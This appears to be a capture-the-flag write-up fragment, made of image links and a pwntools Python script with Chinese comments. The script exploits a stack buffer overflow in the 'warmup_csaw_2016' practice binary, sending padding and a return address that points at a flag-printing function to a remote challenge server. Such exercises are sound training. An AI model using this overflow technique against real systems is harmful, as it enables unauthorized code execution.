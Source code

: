 ![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-4.png)
![alt text](image-5.png)

```python
from pwn import *

# io = process('/home/mykali/pwn/warmup_csaw_2016')         # 本地测试
io = remote('node5.buuoj.cn', 29096)            # 远程连接

cat_flag_addr = 0x40060D     # 包含cat flag.txt 的函数的地址

padding = 0x40 + 8             # 偏移量, 64位程序
payload = b'a' * padding + p64(cat_flag_addr)

io.sendline(payload)
io.interactive()

```